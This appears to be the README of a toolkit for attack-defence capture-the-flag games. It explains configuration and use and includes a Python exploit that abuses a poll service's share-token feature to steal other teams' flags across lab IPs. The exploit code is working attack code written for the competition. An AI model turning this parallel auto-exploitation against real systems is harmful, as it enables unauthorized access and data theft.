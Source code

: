 # A collection of scripts to simplify testing and deploying attacks in attack-defence CTFs
All you need to do is write the exploit for a single target! `test_attack` will 
help you check that everything works as intended. Before every game tick, `deploy` dinamically loads the configuration and any new exploits. Easy to configure through `config.py`, with a dedicated process for every type of attack and in that process a thread for each target.

## Requirements
- `docker compose` for simple MongoDB setup. Alternatively, you can host the database yourself.
- `pip install -r requirements.txt`

## Configuration
At the start of the challenge, remember to properly edit `config.py` 
```python
log_level = "info" # can be debug, info, warn, error
team_id = 77
highest_id = 86
TEAM_TOKEN = "b0d9d5b0307be878aa00e935e230d2d"
max_time = 60 # every thread (attack against a single target) gets at most max_time seconds, after which it's stopped and a warning is printed
tick_duration = 120 # how long is every game tick in seconds
flag_regex = "[A-Z0-9]{31}="
baseip = "10.60.{id}.1"
db_url = "mongodb://localhost:27017/"
```

## Usage
1. Build the database and start deploy.py
```sh
git clone https://github.com/parmigggiana/attack_scripts.git
cd attack_scripts
docker compose up --build -d && python3 deploy.py 
```

2. Edit the `exploit` function inside `test_attack.py`.
You can use the following decorators:
- `@local_test` to attack localhost
- `@nop_test` to attack the nop_team
- `@self_test` to attack your team_ip

2. Copy your `exploit()` and all auxiliary functions to a new file inside `config/exploits/`.
Give it a meaningful name and make sure the file and the exploit function 
have the same name. You can take a look at `config/exploits/example.py` for a reference.

3. Make sure to only keep
the necessary `log.info` and remove all `print`. Consider
switching them to `log.debug`. The console is gonna get busy! 
Edit every function printing to stdout so that it is surrounded by `l.acquire()` and `l.release()` (This is not essential, but with this many parallel processes and threads the sometimes print on the same line. It keeps the output tidy). 

4. Done! If `deploy.py` is already running it will automatically load all new exploits before the next game tick (but don't forget to save the files lmao).

## Examples
File `test_attack.py` 
```python
import json
import requests
import uuid
from pwn import remote, log

from ctf_suite import local_test


@local_test
def exploit(target_ip):
    def get_polls_dict():
        flag_ids_url = "http://10.10.0.1:8081/flagIds"

        res = requests.get(flag_ids_url)
        # print(res.text)
        victims_dict = res.json()["Polls"]
        victim_polls = victims_dict[str(target_ip)]
        return victims_dict

    log.info(f"{__name__} against {target_ip}!")

    try:
        p = remote(target_ip, 5000)
    except:
        log.debug(f"{target_ip}'s service is down!")
        return []

    flags = []
    p.recvuntil(b"]: ")
    p.sendline(b"register")
    p.sendlineafter(b"username: ", uuid.uuid4().hex.encode("ascii"))
    p.sendlineafter(b"password: ", uuid.uuid4().hex.encode("ascii"))
    p.recv(timeout=0.5)

    for poll in get_polls_dict():
        poll = json.loads(poll)
        poll_id = poll["poll_id"]
        username = poll["username"]
        log.debug(f"{poll_id = }, {username = }")

        p.sendline(b"access poll")
        p.sendlineafter(b"back): ", b"share")
        p.recv(timeout=0.5)
        p.sendline(poll_id.encode("ascii"))
        data = p.recv(timeout=0.5)
        if "not" in str(data):
            log.debug(f"{target_ip} patched this vulnerability!")
            break

        token = str(data).split(": ")[1][:-3]
        log.debug(f"{token = }")
        p.sendlineafter(b"exit]: ", b"use token")
        p.sendlineafter(b"Token: ", token)
        p.sendlineafter(b"exit]: ", b"access poll")
        p.sendlineafter(b"back): ", b"show")
        p.sendlineafter(b"id: ", poll_id)

        data = p.recv(timeout=0.5)
        flag = str(data).split(", ")[0]
        flag = str.replace(flag, "\\n", "")
        flag = str.replace(flag, " ", "")

        flags.append(flag[2:])

    log.success(f"{flags}")
    return flags

def main():
    exploit()  # type: ignore


if __name__ == "__main__":
    main()
```
After we get this working, we create a new file `config/exploits/share.py`
```python
import json
import requests
import uuid
from pwn import remote, log

from .common import stdout_lock as l


def share(target_ip):
    def get_polls_dict():
        flag_ids_url = "http://10.10.0.1:8081/flagIds"

        res = requests.get(flag_ids_url)
        # print(res.text)
        victims_dict = res.json()["Polls"]
        victim_polls = victims_dict[str(target_ip)]
        return victims_dict

    l.acquire()
    log.debug(f"{__name__} against {target_ip}!")
    l.release()
    try:
        p = remote(target_ip, 5000)
    except:
        l.acquire()
        log.debug(f"{target_ip}'s service is down!")
        l.release()
        return []

    flags = []
    p.recvuntil(b"]: ")
    p.sendline(b"register")
    p.sendlineafter(b"username: ", uuid.uuid4().hex.encode("ascii"))
    p.sendlineafter(b"password: ", uuid.uuid4().hex.encode("ascii"))
    p.recv(timeout=0.5)

    for poll in get_polls_dict():
        poll = json.loads(poll)
        poll_id = poll["poll_id"]
        username = poll["username"]
        l.acquire()
        log.debug(f"{poll_id = }, {username = }")
        l.release()

        p.sendline(b"access poll")
        p.sendlineafter(b"back): ", b"share")
        p.recv(timeout=0.5)
        p.sendline(poll_id.encode("ascii"))
        data = p.recv(timeout=0.5)
        if "not" in str(data):
            l.acquire()
            log.debug(f"{target_ip} patched this vulnerability!")
            l.release()
            return []

        token = str(data).split(": ")[1][:-3]
        l.acquire()
        log.debug(f"{token = }")
        l.release()
        p.sendlineafter(b"exit]: ", b"use token")
        p.sendlineafter(b"Token: ", token)
        p.sendlineafter(b"exit]: ", b"access poll")
        p.sendlineafter(b"back): ", b"show")
        p.sendlineafter(b"id: ", poll_id)

        data = p.recv(timeout=0.5)
        flag = str(data).split(", ")[0]
        flag = str.replace(flag, "\\n", "")
        flag = str.replace(flag, " ", "")

        flags.append(flag[2:])
    l.acquire()
    log.success(f"{flags}")
    l.release()
    return flags
```

## TODO
- [] Add flag submission logic
- [] Fix live-updating configs and exploits
- []
